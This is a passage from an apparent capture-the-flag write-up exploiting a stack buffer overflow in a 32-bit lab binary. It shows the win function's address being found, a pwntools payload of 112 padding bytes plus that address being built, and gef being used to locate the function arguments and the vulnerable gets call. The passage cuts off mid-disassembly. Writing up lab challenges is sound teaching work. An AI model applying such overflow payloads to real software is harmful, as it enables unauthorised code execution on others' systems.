 ```terminal
   0x08049333 <+157>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08049336 <+160>:   leave
   0x08049337 <+161>:   ret
End of assembler dump.
```

- The address of `win` function is `0x0804929a`.

- Craft the payload using Python:

```terminal
$ python
>>> from pwn import *
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x0804929a)
b'\x9a\x92\x04\x08'
```

- Now our program is able to call the `win` function.

3. Determine the offset to `arg1` and `arg2`:

- Set a breakpoint at `0x0804930c <+118>:   cmp    DWORD PTR [ebp+0x8],0xcafef00d` in `win` function which comparing the value of `arg1`:

```
gef➤  break *0x0804930c
```

- Run the program with the payload crafted:

```terminal
gef➤  run <<< $(echo 'A'*112 + '\x9a\x92\x04\x08')
```

- Inspect the address of ebp+0x8 which is the address of `agr1`:

```terminal
gef➤  p $ebp+0x8
$2 = (void *) 0xffffcef4
```

- The address of `arg1` is `0xffffcef4`.

- Inspect the address of ebp+0xc which is the address of `arg2`:

```terminal
gef➤  p $ebp+0xc
$3 = (void *) 0xffffcef8
```

- The address of `arg2` is right after `arg1`.

- So now we just need to know the address of the buffer to get the offset.

- Set a break point right after the `gets` function in `vuln` function:

```terminal
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x08049338 <+0>:     endbr32
   0x0804933c <+4>:     push   ebp
   0x0804933d <+5>:     mov    ebp,esp
   0x0804933f <+7>:     push   ebx
   0x08049340 <+8>:     sub    esp,0x74
   0x08049343 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x08049348 <+16>:    add    ebx,0x2cb8
   0x0804934e <+22>:    sub    esp,0xc
   0x08049351 <+25>:    lea    eax,[ebp-0x6c]
   0x08049354 <+28>:    push   eax
   0x08049355 <+29>:    call   0x80490f0 <gets@plt>
```